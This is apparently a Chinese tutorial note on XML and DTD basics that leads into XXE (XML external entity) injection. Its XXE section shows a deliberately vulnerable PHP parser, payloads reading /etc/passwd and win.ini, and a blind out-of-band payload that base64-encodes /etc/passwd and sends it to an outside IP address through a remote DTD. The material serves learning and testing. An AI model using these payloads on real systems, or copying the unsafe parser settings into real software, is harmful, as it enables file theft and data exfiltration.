




# XML&DTD

XML被设计用来传输和存储数据,这里提一下xml与html的区别:HTML 旨在显示信息，而 XML 旨在传输信息

而DTD定义 XML 文档的合法构建模块,它使用一系列的合法元素来定义文档结构,DTD 可被成行地声明于 XML 文档中，也可作为一个外部引用。

XML文档结构包括`XML声明`、`DTD文档类型定义（可选）`、`文档元素`



## XML文档元素构建

XML文档其实喝Html的写法类似

所有的 XML 文档（以及 HTML 文档）均由以下简单的构建模块构成：

- 元素
- 属性
- 实体
- PCDATA
- CDATA

### 元素

元素可以说文本，可以是其他元素，可以为空

```
<body>body text in between</body>
<message>some message in between</message>
```

### 属性

提供有关元素的额外信息

```

```

### 实体

实体是用来定义普通文本的变量。实体引用是对实体的引用。

### PCDATA

PCDATA 的意思是被解析的字符数据（parsed character data）。PCDATA 是会被解析器解析的文本。这些文本将被解析器检查实体以及标记。

### CDATA

CDATA 的意思是字符数据（character data）。CDATA 是不会被解析器解析的文本。

## XML语法规则

- 所有XMl元素必须有一个闭合标签
- XMl标签对大小写敏感
- XMl必须正确嵌套
- XML属性值必须加引号
- 实体引用
- 在XMl中，空格会被保留

## DTD

XML 文档有自己的一个格式规范，这个格式规范是由一个叫做 DTD（document type definition） 的东西控制的，他就是长得下面这个样子

```
<?xml version="1.0"?>//这一行是 XML 文档定义
<!DOCTYPE message [
<!ELEMENT message (receiver ,sender ,header ,msg)>
<!ELEMENT receiver (#PCDATA)>
<!ELEMENT sender (#PCDATA)>
<!ELEMENT header (#PCDATA)>
<!ELEMENT msg (#PCDATA)>
```

DTD可以理解为对XML的一个定义，以上DTD定义了xml的根元素是message，message下有一些字元素分别是receiver，sender，header，msg，如何对这些字元素的类型进行了定义，所以最后我们写xml的时候就应该是如下的写法，要满足DTD定义的格式

```
<message>
<receiver>Myself</receiver>
<sender>Someone</sender>
<header>TheReminder</header>
<msg>This is an amazing book</msg>
</message>
```

除了在 DTD 中定义元素（其实就是对应 XML 中的标签）以外，我们还能在 DTD 中定义实体(对应XML 标签中的内容)，毕竟XML 中除了能标签以外，还需要有些内容是固定的

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe "test" >]>
```

这里定义的根元素是foo，但是定义的类型是ANY，说明可以接受任何元素（其实就是说可以是任意的子元素，要求没有那么死了），但是呢，我们还定义了一个实体名叫xxe，值为test（我们可以用&对实体进行引用）

来看看这种的xml应该怎么写

```
<creds>
<user>&xxe;</user>
<pass>mypass</pass>
</creds>
```

对于实体，分为内部实体和外部实体，刚才我们直接在内部定义好了称作为内部实体，当我们引入这个XML以外的文件称作为外部实体

示例

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///User/DawnT0wn/test.dtd" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

可以看到通过一个file协议去读电脑上的一个dtd文件，在里面定义好了我们的xxe实体

不同语言支持的协议类型



### 一般实体和参数实体

**1.通用实体**

用 &实体名; 引用的实体，他在DTD 中定义，在 XML 文档中引用

**示例代码：**

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE updateProfile [<!ENTITY file SYSTEM "file:///c:/windows/win.ini"> ]> 
<updateProfile>  
    <firstname>Joe</firstname>  
    <lastname>&file;</lastname>  
    ... 
</updateProfile>
```

**2.参数实体：**

(1)使用 `% 实体名`(**这里面空格不能少**) 在 DTD 中定义，并且**只能在 DTD 中使用 `%实体名;` 引用**
(2)只有在 DTD 文件中，参数实体的声明才能引用其他实体
(3)和通用实体一样，参数实体也可以外部引用

**示例代码：**

```
<!ENTITY % an-element "<!ELEMENT mytag (subtag)>"> 
<!ENTITY % remote-dtd SYSTEM "http://somewhere.example.org/remote.dtd"> 
%an-element; %remote-dtd;
```

# XXE

XXE(XML External Entity Injection) 全称为 XML 外部实体注入，从名字就能看出来，这是一个注入漏洞，注入的是什么？XML外部实体。

看了上面的东西后，可能对XXE有一点基本的感觉了，既然能去用相应的协议去读dtd文件，那有没有可能可以直接去读系统敏感文件，比如说/etc/passwd

## 有回显的XXE

接下来我们来测试一下XXE漏洞，写一个能解析XML的代码

```
<?php
highlight_file(__FILE__);
libxml_disable_entity_loader (false);
$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
$creds = simplexml_import_dom($dom);
echo $creds;

?>
```

payload

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "file:///etc/passwd"> ]> 
<creds>&goodies;</creds>
```



php://filter也可以



## 无回显的XXE

```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % int "<!ENTITY &#x25; send SYSTEM 'http://47.93.248.221:2333?p=%file;'>">
```


```
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "http://47.93.248.221/test.dtd">
%remote;%int;%send;
]>
```


参考链接

https://xz.aliyun.com/t/3357#toc-4

https://cloud.tencent.com/developer/article/2090744

[xxe实验踩坑记录 | m3lon](https://m3lon.github.io/2019/01/20/xxe实验踩坑记录/)

https://xz.aliyun.com/t/2249